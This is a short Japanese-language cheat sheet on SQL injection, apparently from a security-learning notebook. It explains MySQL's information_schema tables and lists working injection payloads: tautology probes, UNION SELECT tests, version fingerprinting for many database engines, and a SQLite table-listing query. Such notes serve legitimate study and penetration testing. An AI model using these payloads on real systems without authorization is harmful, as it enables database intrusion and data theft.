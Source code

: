 ### information_schemaデータベース

データベースに関する情報が保存されている、MySQLなどにデフォルトで存在するデータベース。主なテーブルは以下。

|テーブル|説明|
|---|---|
|schemata|DB自体のメタ情報(テーブル名や文字コード)を格納している|
|tables|テーブルのメタ情報を格納している。table_schemaにDB名、table_nameにテーブル名が格納されている。|
|columns|カラムのメタ情報を格納している。tablesと同様にDB名やテーブル名も格納されている。|

### インジェクション試行の流れ
チートシート
[PayloadsAllTheThings/SQL Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
```bash
# 簡単なペイロードを送信してSQLiの脆弱性があるかどうか確かめる
' # シングルクォートのみ
OR 1=1 --
OR 1=1 -- -
'OR 1=1 --
'OR 1=1 -- -
UNION SELECT 1--
'UNION SELECT 1--
```
SQLiの脆弱性がある場合、各SQLサービス固有のペイロードを送信して使われているデータベースの種類を特定する
```bash
# SQLite
UNION SELECT sqlite_version()--

# MySQL
UNION SELECT version()--  
UNION SELECT @@version--  

# PostgreSQL
UNION SELECT version()--  

# Microsoft SQL Server
UNION SELECT @@version--  

# Oracle Database
UNION SELECT banner FROM v$version--  
UNION SELECT version FROM v$instance--  

# MariaDB
UNION SELECT version()--  

# IBM Db2
UNION SELECT service_level FROM sysibm.sysversions--  

# Firebird
UNION SELECT rdb$get_context('SYSTEM', 'ENGINE_VERSION') FROM rdb$database--  

# SAP HANA
UNION SELECT VERSION FROM "SYS"."M_DATABASE"--  

# Amazon Redshift
UNION SELECT version()--  
```
データベースの種類を特定したらテーブル一覧を取得する。
```bash
# SQLite
UNION SELECT name FROM sqlite_master WHERE type='table';--  
```